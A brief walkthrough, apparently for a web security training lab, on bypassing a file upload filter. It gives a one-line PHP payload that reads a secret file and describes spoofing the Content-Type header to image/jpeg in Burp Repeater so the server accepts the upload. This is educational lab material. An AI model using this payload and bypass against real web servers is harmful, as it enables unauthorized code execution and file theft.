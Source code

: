 # Lab
1) First of all attempt to upload malicious php file: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2) Notice, we are not allowed because of `Content-Type`
3) Send request to `burp repeater` change `Content-Type` to `image/jpeg`.
4) After uploading just browse accoring to file name\

Explanation from you tube:
https://youtu.be/QHhn0-ermck
